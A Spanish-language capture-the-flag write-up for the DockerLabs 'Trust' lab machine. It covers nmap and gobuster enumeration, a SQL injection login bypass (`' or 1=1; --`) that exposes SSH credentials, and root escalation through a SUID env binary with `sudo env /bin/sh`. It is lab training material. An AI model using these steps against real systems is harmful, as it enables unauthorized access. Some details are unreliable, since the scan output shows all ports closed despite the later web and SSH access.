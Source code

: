 #Trust DockerLabs - 13/05/2024

#web - https://dockerlabs.es/#/

Empezamos con un escaneo basico de nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 20:23 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00021s latency).
All 65535 scanned ports on 172.17.0.2 are in ignored states.
Not shown: 65535 closed tcp ports (conn-refused)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2.19 seconds

```

Realizamos un escaneo de subdominios con gobuster hacia "http://172.17.0.2":

```shell
└─$ gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,py,bak        
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,py,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2921]
/config.php           (Status: 200) [Size: 0]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1102800 / 1102805 (100.00%)
===============================================================
Finished
===============================================================

```

Entramos en "http://172.17.0.2/index.php/" y vemos que hay un login web.
Intentamos bypassearlo utilizando la vunerabilidad "sql injection":

```shell
' or 1=1; --
```

![Captura de pantalla 2024-05-14 195628](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/5da299de-f3ce-4ad0-a18f-b7c21ab565af)

Logramos bypassearlo y vemos un usuario "Dylan" y una contraseña "KJSDFG789FGSDF78":

![Captura de pantalla 2024-05-14 195654](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/6d613173-33fe-46f4-9d63-420a7895c706)

Introduciomos estos datos en el servidor ssh:


```shell                                                                   
└─$ ssh dylan@172.17.0.2                                                                                                  
dylan@172.17.0.2's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.6.9-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

```

Buscamos binarios con permisos SUID

```shell
dylan@37ab85f5f7a7:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/chsh
/usr/bin/env
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd

```

Buscamos el binario env en "https://gtfobins.github.io/gtfobins/env/".
Ejecutamos el comando de la web:

```shell
sudo env /bin/sh
```

```shell
# whoami
root
```
